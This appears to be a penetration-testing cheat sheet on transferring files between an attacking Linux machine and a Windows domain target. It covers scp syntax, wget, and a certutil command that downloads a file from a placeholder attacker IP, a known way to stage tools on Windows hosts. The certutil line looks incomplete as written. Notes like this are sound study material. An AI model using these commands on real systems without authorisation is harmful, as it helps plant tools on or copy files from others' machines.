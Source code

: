 --- ---

<h2>PSCP & SCP</h2>

PSCP and SCP are command-line tools used to securely transfer files between computers. They are both based on the SSH (Secure Shell) protocol, which allows for secure and encrypted communication between systems.

PSCP is a Windows-based tool, while SCP is a Linux-based tool. Both tools can be used to transfer files from one system to another, and they have similar syntax.


<h2>Command</h2>

---> **From attacking Machine** (Linux) -> (Windows AD)

```Terminal
scp DOMAIN\\USER@MACHINE_DOMAIN_NAME:C:/User/USERNAME/.../FILE.SOMETHING ~/Documents/....
```

- First file destination           ---> File on the windows machine
- Second File Destination     ---> File output option on the second machine (~)



---> **From Target Machin**e (Windows) -> (Linux)

```
scp USER@IP:/User/USERNAME/Downloads/FILE.SOMETHING ~/Documents/....
```

- First file destination           ---> File on the windows machine
- Second File Destination     ---> File output option on the second machine (~)



---> From Attacking Machine (Linux) -> (Windows)

```
scp USER@IP:C:/.../FILE.SOMETHING .
```

- First file destination           ---> File on the windows machine
- Second File Destination     ---> File output option on the second machine (~)

---

<h2>Other Technique (WGET & Certutil)</h2>

An alternative method for sharing files is to use tools such as wget (on Linux) or certutil (on Windows), along with a Python server. This allows you to share files through these tools by using the Python server as a medium.

Wget is a command-line tool for Linux and other Unix-based operating systems that allows users to download files from the internet. It supports various protocols such as HTTP, HTTPS, and FTP, and allows for the retrieval of files from websites, servers, and other sources. It also supports the ability to download files recursively, meaning that it can follow links within a webpage and download all the files linked to it.

Linux
```
wget [URL of file to download] -P [path to save file]
```


Certutil is a command-line tool on Windows that allows users to manage digital certificates, including file and certificate services. It can be used to display, configure, and verify certification authority (CA) configuration information, configure Certificate Services, backup and restore CA components, and verify certificates, key pairs, and certificate chains. It can also be used to import and export certificate files, such as .cer and .pfx files.

Windows
```
certutil -f http://IP/Shared_file.XX New_File_Name.XX
```